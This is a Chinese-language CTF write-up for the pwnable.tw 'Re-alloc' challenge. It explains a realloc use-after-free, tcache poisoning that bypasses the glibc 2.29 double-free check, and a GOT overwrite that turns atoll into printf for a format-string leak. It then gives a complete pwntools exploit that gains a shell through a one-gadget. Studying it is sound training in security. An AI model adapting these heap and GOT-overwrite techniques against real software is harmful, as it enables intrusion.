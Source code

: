 ```yaml
---
title: Re-alloc
date: 2021-05-08 23:40:11
tags:
layout: post
---
```

Re-alloc in pwnable.tw
<!--more-->

# Challenge

题目非常简洁，一共三个功能：

1. realloc `创建`一个堆块
2. realloc `重新分配`一个已经存在堆块的大小
3. realloc `释放`一个堆块

存在的漏洞点有两个

1. 创建一个堆块中有个 OFF BY NULL（虽然对做题没啥用）
2. 重新分配大小中可以设置大小为0，这样就是一个UAF

题目限制

1. 只能同时控制两个chunk
2. realloc大小≤0X78

# Solution

主要就是如何利用这个UAF

显而易见的是可以将一个任意地址链入tcache，设第一次的size为 `x`  

`add(0,x) - > re(0,0) - > re(0,x-0x20,p64(0xdeadbeef))`

但是这样做 有个问题如果我们想要获得0xdeadbeef这个chunk我们需要add 2次，那么如何清除指针是一个问题，本题中出了delet功能没有其他功能可以清除指针。

delet中有两个问题

1. chunk size不能是 `x` ，否则会挡住我们想要获得的地址
2. 防止 `double free` 被检查到

在libc-2.29中防止double free被检查的方法有两个，修改chunk size 或者修改key。

本题中前者比较好用，因为realloc有切割功能，只要通过第二个功能就可以修改chunk的大小。

所以我们的思路是

1. UAF 将需要控制的地址链入tache
2. 清空bss上指针
3. 写入需要控制的地址

# EXP

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
def cmd(c):
	p.sendlineafter("ce: ",str(c))
def add(idx,size,c="A"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",c)

def re(idx,size,c="A"):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	if(size>0):
		p.sendafter("Data:",c)
def free(idx):
	cmd(3)
	p.sendlineafter("dex:",str(idx))
atoll_got=0x000000000404048
printf_plt=0x401070
exit_got=0x000000000404018
#p=process('./pwn')
p=remote("chall.pwnable.tw",10106)
# LINK atoll_got in tcache
add(0,0x78,'A'*0x78)
re(0,0)
re(0,0x28,p64(atoll_got))
# GET atoll_got 
add(1,0x78)
re(1,0x58)
free(1)
add(1,0x78,p64(printf_plt))

#gdb.attach(p,'b printf')
# FORMAT STRING
free("%9$p")
base=int(p.readline()[:-1],16)-(0x7ffff7e53e4a-0x7ffff7dd0000)
one=0x106ef8+base

for off in range(6):
	free("%{}c%16$hn".format(0x4018+off))
	free("%{}c%20$hhn".format(one&0xff))
	one=one>>8
cmd(4)

log.warning(hex(base))
p.interactive()
```